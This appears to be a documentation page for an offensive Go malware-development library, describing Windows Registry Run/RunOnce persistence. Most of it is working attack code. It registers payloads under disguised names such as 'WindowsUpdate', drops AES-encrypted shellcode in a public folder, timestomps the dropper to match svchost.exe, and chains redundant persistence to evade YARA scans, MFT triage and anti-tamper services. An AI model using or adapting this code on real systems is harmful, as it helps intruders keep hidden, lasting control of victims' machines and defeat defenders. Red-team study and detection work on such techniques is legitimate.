

# Registry Run/RunOnce Persistence

[<- Back to Persistence Overview](README.md)

**MITRE ATT&CK:** [T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys](https://attack.mitre.org/techniques/T1547/001/)
**Package:** `persistence/registry`
**Platform:** Windows
**Detection:** Medium

---

## Primer

Windows checks certain registry keys every time a user logs on. Any program path written to these keys is automatically executed. This is one of the most common persistence techniques — and one of the most monitored.

**Run** keys persist across reboots. **RunOnce** keys execute once then self-delete.

---

## How It Works



**Registry paths:**
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` — per-user, no elevation
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce` — per-user, one-shot
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` — machine-wide, requires admin
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce` — machine-wide, one-shot

---

## Usage

```go
import "github.com/oioio-space/maldev/persistence/registry"

// Install
err := registry.Set(registry.HiveCurrentUser, registry.KeyRun, "WindowsUpdate", `C:\Temp\payload.exe`)

// Check
exists, _ := registry.Exists(registry.HiveCurrentUser, registry.KeyRun, "WindowsUpdate")

// Remove
err = registry.Delete(registry.HiveCurrentUser, registry.KeyRun, "WindowsUpdate")

// Via Mechanism interface (composable)
m := registry.RunKey(registry.HiveCurrentUser, registry.KeyRun, "WindowsUpdate", `C:\Temp\payload.exe`)
m.Install()
```

---

## Combined Example

Install a registry Run-key that launches a dropper, then timestomp the
dropper so it matches surrounding system files — harder to spot via
`dir /tq` or MFT triage.

```go
package main

import (
    "os"
    "time"

    "github.com/oioio-space/maldev/cleanup/timestomp"
    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/persistence/registry"
)

func main() {
    // 1. Encrypt payload with AES-GCM (key derived at build time).
    key, _ := crypto.NewAESKey()
    payload := []byte{ /* raw shellcode bytes */ }
    blob, _ := crypto.EncryptAESGCM(key, payload)

    // 2. Drop to disk in a location every process writes to.
    droppers := `C:\Users\Public\Intel\update-cache.bin`
    _ = os.MkdirAll(`C:\Users\Public\Intel`, 0o755)
    _ = os.WriteFile(droppers, blob, 0o644)

    // 3. Timestomp to match a trusted neighbour (svchost.exe here).
    si, _ := os.Stat(`C:\Windows\System32\svchost.exe`)
    t := si.ModTime()
    _ = timestomp.SetFull(droppers, t, t, t)

    // 4. Register boot persistence via HKCU\...\Run — no admin needed,
    //    no SCM noise, survives user logon.
    _ = registry.RunKey(
        registry.HiveCurrentUser,
        registry.KeyRun,
        "IntelGraphicsUpdate",
        droppers, // launcher reads the blob, decrypts, self-injects
    ).Install()

    // Decryption side (at execution time) — same key, reverse:
    //   blob, _ := os.ReadFile(droppers)
    //   sc, _  := crypto.DecryptAESGCM(key, blob)
    //   then feed sc to inject.* of your choice.
    _ = time.Now
}
```

Layered benefit: the on-disk artifact is encrypted (defeats YARA file
scans), its timestamps match a known-good binary (defeats MFT triage),
and the reg value points at a low-privilege user hive (no admin prompt,
no SCM).

---

## Advanced — RunOnce, HKLM, and conditional install

`KeyRunOnce` self-deletes after first execution — useful for staged
loaders that establish a more durable persistence on first boot then
clean up the noisy registry trail. Combine with an `Exists` probe to
make installation idempotent across implant restarts:

```go
package main

import (
	"fmt"
	"log"
	"os"

	"github.com/oioio-space/maldev/persistence/registry"
	"github.com/oioio-space/maldev/win/privilege"
)

func main() {
	const (
		valueName = "IntelGraphicsCompat"
		payload   = `C:\Users\Public\Intel\stage1.exe`
	)

	// Pick the hive based on integrity level — admin + elevated gets HKLM
	// (machine-wide); anything else falls back to HKCU.
	hive := registry.HiveCurrentUser
	if admin, elevated, _ := privilege.IsAdmin(); admin && elevated {
		hive = registry.HiveLocalMachine
	}

	// Idempotency: skip if already installed.
	if exists, _ := registry.Exists(hive, registry.KeyRun, valueName); exists {
		fmt.Println("already installed; skipping")
		return
	}

	if _, err := os.Stat(payload); err != nil {
		log.Fatalf("payload missing at %s: %v", payload, err)
	}
	if err := registry.Set(hive, registry.KeyRun, valueName, payload); err != nil {
		log.Fatal(err)
	}

	// One-shot RunOnce that self-deletes after first boot — useful for
	// "establish, migrate, vanish" pattern.
	_ = registry.Set(hive, registry.KeyRunOnce, valueName+"_bootstrap", payload+" --bootstrap")
}
```

`Mechanism` interface composition (see [persistence overview](../../persistence.md))
lets you install several persistence mechanisms in one `InstallAll`
call — useful for redundancy when the host's anti-tamper service may
disable any single one.

## API Reference

```go
// Hive selects HKCU vs HKLM (HKLM requires admin).
type Hive int
const (
    HiveCurrentUser Hive = iota
    HiveLocalMachine
)

// KeyKind selects Run (persistent) vs RunOnce (deletes after firing).
type KeyKind int
const (
    KeyRun KeyKind = iota
    KeyRunOnce
)

// Set writes valueName=payloadCmd under hive\<key>. Creates the key if
// missing. Overwrites an existing value. Errors out on access denied
// (HKLM without admin) or RegOpenKeyEx failure.
func Set(hive Hive, key KeyKind, valueName, payloadCmd string) error

// Exists is a cheap probe — returns (false, nil) if the value is absent.
func Exists(hive Hive, key KeyKind, valueName string) (bool, error)

// Delete removes valueName. Returns nil even if the value was already absent.
func Delete(hive Hive, key KeyKind, valueName string) error

// RunKey wraps Set/Exists/Delete in a Mechanism so the caller can chain
// it alongside startup-folder, scheduled-task, and service mechanisms
// via persistence.InstallAll(...).
func RunKey(hive Hive, key KeyKind, name, cmd string) Mechanism
```

The full `Mechanism` interface and the higher-level `InstallAll` /
`UninstallAll` orchestrators live in
[`docs/persistence.md`](../../persistence.md).
